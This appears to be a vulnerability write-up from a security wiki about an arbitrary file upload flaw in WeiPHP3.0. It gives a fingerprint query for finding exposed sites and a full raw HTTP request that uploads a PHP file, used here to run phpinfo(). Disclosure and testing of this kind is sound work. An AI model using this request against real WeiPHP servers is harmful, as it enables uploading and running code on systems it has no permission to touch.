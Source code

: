 # WeiPHP3.0 session_id A random file upload vulnerability

## Vulnerability Description

WeiPHP3.0 session_id has a vulnerability to upload any file. The attacker can upload any file through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WeiPHP3.0</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="weiphp"</span>

## Vulnerability reappears

Login page logo

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628213492648-3347796e-a88d-4455-909a-f5d8f4ac047f.png)

Send request package to upload file

```php
POST /index.php?s=%2FHome%2FFile%2Fupload%2Fsession_id%2Fscevs8hub3m5ogla05a421hb42.html HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 831
Content-Type: multipart/form-data; boundary=------------------------e37a54d7d5380c9f
Accept-Encoding: gzip

--------------------------e37a54d7d5380c9f
Content-Disposition: form-data; name="download"; filename="882176.php"
Content-Type: application/octet-stream

<?php
phpinfo();

--------------------------e37a54d7d5380c9f--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628213649320-464f9e3a-8b64-46b2-b4f8-4afc74fdb3e3.png)

Access the echoed path after obtaining the directory

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628213733752-1746e894-4003-47eb-b50b-6d374133443c.png)


